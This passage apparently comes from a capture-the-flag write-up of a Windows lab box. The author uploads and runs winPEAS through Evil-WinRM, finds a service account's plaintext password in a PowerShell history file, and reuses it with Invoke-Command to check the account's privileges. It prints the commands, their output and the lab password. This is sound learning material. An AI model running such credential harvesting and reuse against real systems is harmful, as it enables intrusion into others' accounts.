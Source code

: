     :::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> upload winPEAS.bat
    Info: Uploading winPEAS.bat to C:\Users\legacyy\Documents\winPEAS.bat

    *Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEAS.bat
    Enter PEM pass phrase:
    winPEAS.bat : The system cannot find the batch label specified - SetOnce
        + CategoryInfo          : NotSpecified: (The system cann...ified - SetOnce:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError

    The system cannot find the batch label specified - ColorLineThe system cannot find the batch label specified - ColorLineThe system cannot find the batch label specified - ColorLinePowerShell v2 Version:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
        PowerShellVersion    REG_SZ    2.0

    PowerShell v5 Version
    <SNIP>
    Transcriptions Settings:
    Module logging settings:
    Scriptblog logging settings:

    PS default transcript history

    Checking PS history file
     Volume in drive C has no label.
     Volume Serial Number is 22CC-AE66

     Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

    03/04/2022  12:46 AM               434 ConsoleHost_history.txt
                   1 File(s)            434 bytes
                   0 Dir(s)   5,256,929,280 bytes free


The file contained a password to run as `svc_deploy` including the account password.

    :::text
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit

I used it as it was checking `svc_deploy` privileges. The account was part of the `LAPS_Readers` group.

    :::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    *Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /all}
